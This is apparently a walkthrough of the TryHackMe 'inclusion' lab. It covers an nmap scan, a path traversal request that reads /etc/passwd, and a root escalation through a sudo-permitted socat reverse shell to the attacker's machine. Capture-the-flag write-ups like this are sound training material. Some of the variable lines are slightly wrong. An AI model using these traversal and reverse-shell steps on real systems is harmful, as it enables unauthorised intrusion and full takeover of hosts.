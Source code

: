 # Write up TryHackMe [inclusion](https://tryhackme.com/room/inclusion)  

## [Task 1] Deploy  
First thing to do when a machine has been deployed is run nmap  

`nmap -sV -T4 -A -p- 10.10.56.74`  
```shell
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-10 14:52 CEST
Nmap scan report for 10.10.56.74
Host is up (0.056s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.87 seconds
```

## [Task 2] Root it  

1. **user flag**  

    Checking the website on the IP given  
    ![index](index.png)  

    Checking the on LFI-attack.  
    ![lfiAttack](lfiAttack.png)  

    Let's try Directory Traversal / Path Traversal attack by calling:  
    `http://10.10.56.74/article?name=../../../../etc/passwd`  
    This GET request returns the content of passwd:
    ![passwd](passwd.png)
    
    By inspecting the content, the user `falconfeast` is found with SSH access.  
    Now login using SSH
    ![ssh falconfeas@t10.10.56.74](ssh.png)

    user flag found
    ![cat user.txt](user.png)

1. **root flag**  

    On the remote host run the command `sudo -l` to find which  check what the user falconfeast can run as sudo.
    ![sudo -l](sudo.png)

    Google to learn more about socat.

    To install socat on mac first install [brew](https://brew.sh/) and then run the command `brew install socat`.

    **Gaining root acess**  
    First get your local VPN IP address by running ifconfig, on my computer it's found under utun2.

    On your local machine run the command ```socat file:`tty`,raw,echo=0tcp-listen:41337```  

    Go back to the falconfeast SSH connection and run the commands  
    `RHOST =  <your vpn ip address>`  
    `LHOST = 41337`  
    and then finally run the command  
    `sudo /usr/bin/socat tcp-connect:$RHOST:$RPORT exec:sh,pty,stderr,setsid,sigint,sane`  

    Go back to your local terminal and verify that connection has been etablished.
    ![socat](socat.png)
    
    Now cd to root directory and cat the root.txt

    Done!
